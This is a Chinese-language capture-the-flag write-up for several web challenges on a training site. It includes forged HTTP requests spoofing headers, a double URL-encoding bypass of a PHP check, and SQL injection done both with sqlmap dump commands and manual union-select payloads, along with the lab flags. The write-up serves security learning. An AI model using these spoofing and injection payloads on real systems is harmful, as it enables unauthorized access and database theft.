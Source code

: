 ## 猫抓老鼠

检查请求头,发现 `content-row: MTU0Nzk5MTA1OQ==`
输入得到Flag: `KEY: #WWWnsf0cus_NET#`

## 头有点大

根据提示,抓包
伪造.NET 浏览器 国籍
修改为
```
GET /sHeader/ HTTP/1.1
Host: ctf5.shiyanbar.com
User-Agent: Mozilla/5.0 (Windows NT 6.1/.NET CLR 9.9; Win64; x64; rv:64.0) Gecko/20100101 IE
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-gb,en;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: Hm_lvt_34d6f7353ab0915a4c582e4516dffbc3=1546692582; Hm_cv_34d6f7353ab0915a4c582e4516dffbc3=1*visitor*185270%2CnickName%3Affdy; Hm_lpvt_34d6f7353ab0915a4c582e4516dffbc3=1547962050
Upgrade-Insecure-Requests: 1
```
GO,得到Flag: The key is:HTTpH34der

## 貌似有点难

查看代码,发现要将IP伪装为1.1.1.1
在伪造IP后响应中提示还要伪造跳转网页
抓包
伪造IP 跳转网页
修改为
```
GET /phpaudit/ HTTP/1.1
Host: ctf5.shiyanbar.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Forwarded-For: 1.1.1.1 ##IP
Referer: https://www.google.com  ##跳转网页
Connection: close
Cookie: Hm_lvt_34d6f7353ab0915a4c582e4516dffbc3=1546692582; Hm_cv_34d6f7353ab0915a4c582e4516dffbc3=1*visitor*185270%2CnickName%3Affdy; Hm_lpvt_34d6f7353ab0915a4c582e4516dffbc3=1547962050
Upgrade-Insecure-Requests: 1
```
得到Flag: Key is SimCTF{daima_shengji}

## PHP大法
进入链接,看见源码
```php
<?php
if(eregi("hackerDJ",$_GET[id])) { #比较id和字符,如果相等返回true
  echo("<p>not allowed!</p>");
  exit();
}

$_GET[id] = urldecode($_GET[id]); #对id进行url解密
if($_GET[id] == "hackerDJ") 如果id等于字符,得到Flag
{
  echo "<p>Access granted!</p>";
  echo "<p>flag: *****************} </p>";
}
?>


<br><br>
Can you authenticate to this website?
```
分析代码发现应对字符进行URL编码,但需要加密两次,因为浏览器会解密一次
网上的在线编码一般不会处理英文,用这个[网站](http://tool.bugku.com/safe/url.php)
GET 提交,得到 Flag: DUTCTF{PHP_is_the_best_program_language}

## 看起来有点简单!
Sql 注入题,直接用 Sqlmap 就能搞定

1. `--current-db` 发现库名为 my_db
2. `-D my_db --tables` 发现表名为 thiskey
3. `-D my_db -T thiskey --columns` 发现字段名为 k0y
4. `-D my_db -T thiskey -C k0y --dump` 得到Flag :  whatiMyD91dump

手工注入: 

1. `id=1'` 报错发现数据库类型为 MySQL 
2. `id=1 and 1=1` 与 `id=1 and 1=2` 回显不同,判断存在注入点
3. `id=1 order by 1` 3 的时候报错,说明字段数为 2
4. `id=1 union select 1,schema_name  from information_schema.schemata` 查询数据库名称发现 my_db 
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTIwODY1MDAwNDYsNDMwMTEzMjQ2LC0yNj
IzNDY3NjgsNzQyNjIzOTgwLC0yOTAyNzc3NTgsMTgwMDI2Mjc2
MywtODE1ODA1ODc4LDE4NzE4ODA4MTQsNDIyOTY4MTMsNDEwNz
g3NDY1LC0xMjE0NDU5ODA4XX0=
-->